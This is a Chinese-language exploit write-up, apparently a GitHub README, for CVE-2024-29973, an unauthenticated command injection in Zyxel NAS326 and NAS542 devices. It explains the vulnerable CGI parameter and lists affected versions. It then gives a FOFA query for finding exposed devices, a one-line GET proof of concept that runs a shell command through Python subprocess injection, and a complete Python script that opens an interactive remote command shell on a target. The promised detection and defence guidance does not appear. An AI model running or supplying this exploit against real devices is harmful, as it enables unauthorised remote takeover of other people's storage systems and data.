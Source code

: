 # CVE-2024-29973

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Zyxel NAS设备  未授权命令注入



## 0x01 漏洞描述

Zyxel NAS 设备曝出了一个重大安全漏洞（CVE-2024-29973），该漏洞允许远程攻击者在受影响的设备上执行任意代码。这一漏洞已经被广泛关注，并被证实可以在实际中复现。本文将详细介绍该漏洞的成因、利用方式以及如何检测和防御这种攻击。

## 0x02 **漏洞成因**

Zyxel NAS 设备中存在一个不安全的 CGI 接口 `/cmd,/simZysh/register_main/setCookie`。该接口的参数 `c0` 没有正确的输入校验，导致用户可以通过特殊构造的输入来注入系统命令，并以设备权限执行这些命令。这种远程代码执行（RCE）漏洞为攻击者提供了完全控制受影响设备的能力，可能导致数据泄露、服务中断等严重后果。

## 0x03 影响版本

```cpp
Zyxel NAS326 < V5.21(AAZF.17)C0
Zyxel NAS542 < V5.21(ABAG.14)C0
```

## 0x04 fofa搜索语法

```cpp
body="/cmd,/ck6fup6/user_grp_cgi/cgi_modify_userinfo"
```

## 0x05 漏洞复现

### POC

```cpp
{Target Address}/cmd,/simZysh/register_main/setCookie?c0=storage_ext_cgi+CGIGetExtStoInfo+None)+and+False+or+__import__("subprocess").check_output("id",+shell=True)%23
```

![Untitled](image/Untitled.png)

![Untitled](image/Untitled%201.png)

### 利用脚本

```python
# TracelessSec
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

class ZyxelNASExploit:
    def __init__(self, url, verify=True):
        self.baseAPIUrl = url
        self.verify = verify

    def GetResponse(self, method, url, data=None, params=None, jsons=None, headers=None, re_conn=0):
        try:
            with requests.request(method=method, url=url, data=data, params=params, json=jsons, headers=headers,
                                  verify=self.verify) as response:
                return response.status_code, response
        except:
            if re_conn > 5:
                return 1001, ''
            self.GetResponse(method, url, data, params, headers, re_conn=re_conn + 1)

    def start(self):
        print("请输入要执行的命令！")
        while True:
            sendMSG = input("$ > ")
            if sendMSG == "exit":
                break
            code, res = self.GetResponse(method="GET",
                                         url=self.baseAPIUrl + f"/cmd,/simZysh/register_main/setCookie?c0=storage_ext_cgi+CGIGetExtStoInfo+None)+and+False+or+__import__(\"subprocess\").check_output(\"{quote(sendMSG)}\",+shell=True)%23")
            if code == 1001:
                print("请求失败！")
            else:
                try:
                    res = res.json()
                    if res["errmsg0"] == "OK":
                        print(res["zyshdata0"][0].replace("\\n", "\n"))
                    else:
                        print(res["errmsg0"], "结果如下：", res["zyshdata0"])

                except Exception as e:
                    print("出现错误！如下：", e)

if __name__ == '__main__':
    url = "http://{ip}:{port}/"
    ZyxelNASExploit(url=url, verify=True).start()

```
